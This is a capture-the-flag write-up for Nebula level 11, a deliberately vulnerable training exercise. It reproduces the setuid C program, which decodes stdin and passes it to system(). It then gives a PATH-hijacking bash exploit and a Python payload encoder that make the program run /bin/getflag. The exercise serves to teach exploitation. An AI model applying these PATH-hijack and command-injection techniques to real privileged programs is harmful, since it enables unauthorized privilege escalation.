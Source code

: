 .. _nebula11:

.. role:: bash(code)
	  :language: bash

.. role:: python(code)
	  :language: python

.. role:: c(code)
	  :language: c
		     
Nebula 11
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level11/

**Source Code**

.. code-block:: c
		#include <stdlib.h>
		#include <unistd.h>
		#include <string.h>
		#include <sys/types.h>
		#include <fcntl.h>
		#include <stdio.h>
		#include <sys/mman.h>

		/*
		 * Return a random, non predictable file, and return the file descriptor for it.
		 */

		 int getrand(char **path)
		 {
		       char *tmp;
		       int pid;
		       int fd;

		       srandom(time(NULL));

		       tmp = getenv("TEMP");
		       pid = getpid();

		       asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
		       'A' + (random() % 26), '0' + (random() % 10),
		       'a' + (random() % 26), 'A' + (random() % 26),
		       '0' + (random() % 10), 'a' + (random() % 26));

		       fd = open(*path, O_CREAT|O_RDWR, 0600);
		       unlink(*path);
		       return fd;
		 }

		void process(char *buffer, int length)
		{
		    unsigned int key;
		    int i;

		    key = length & 0xff;

		    for(i = 0; i < length; i++) {
		        buffer[i] ^= key;
			key -= buffer[i];
		    }

		    system(buffer);
		}

		#define CL "Content-Length: "

		int main(int argc, char **argv)
		{
		    char line[256];
		    char buf[1024];
		    char *mem;
		    int length;
		    int fd;
		    char *path;

		    if(fgets(line, sizeof(line), stdin) == NULL) {
		        errx(1, "reading from stdin");
		    }

		    if(strncmp(line, CL, strlen(CL)) != 0) {
		        errx(1, "invalid header");
		    }
   
		    length = atoi(line + strlen(CL));

		    if(length < sizeof(buf)) {
		        if(fread(buf, length, 1, stdin) != length) {
		            err(1, "fread length");
			}
			process(buf, length);
		    } else {
		        int blue = length;
			int pink;

			fd = getrand(&path);

			while(blue > 0) {
		            printf("blue = %d, length = %d, ", blue, length);

			    pink = fread(buf, 1, sizeof(buf), stdin);
			    printf("pink = %d\n", pink);

			    if(pink <= 0 ) {
			        err(1, "fread fail(blue = %d, length = %d)", blue, length);
			    }
			    write(fd, buf, pink);

			    blue -= pink;
			}

			mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
			if(mem == MAP_FAILED) {
		            err(1, "mmap");
			}
			process(mem, length);
		    }

		}

Important Note
----
   
This level has two posible ways to be exploited but, it have a bug on the sticky bit, this bug can be seen by strace

**Reported bug:** https://security.stackexchange.com/questions/137204/nebula-level11-setuid-is-not-working

Solution
--------
* First way:

.. code-block:: bash

   export PATH=/tmp/:$PATH
   ln -s /bin/getflag d
   echo -ne "Content-Length: 1\nd" | /home/flag11/flag11

.. note:: Execute it until an "e" comes up, if this letter shows then you can execute

* Second way:

.. code-block:: python

   string = "/bin/getflag\x00"
   key = 0

   enc_string = ""

   for char in string:
       enc_char = ord(char) ^ key & 0xff
       enc_string += chr(enc_char)
       key = key - ord(char) & 0xff

   print "Content-Length: 1024\n" + enc_string + "\x00" * (1024 - len(enc_string))
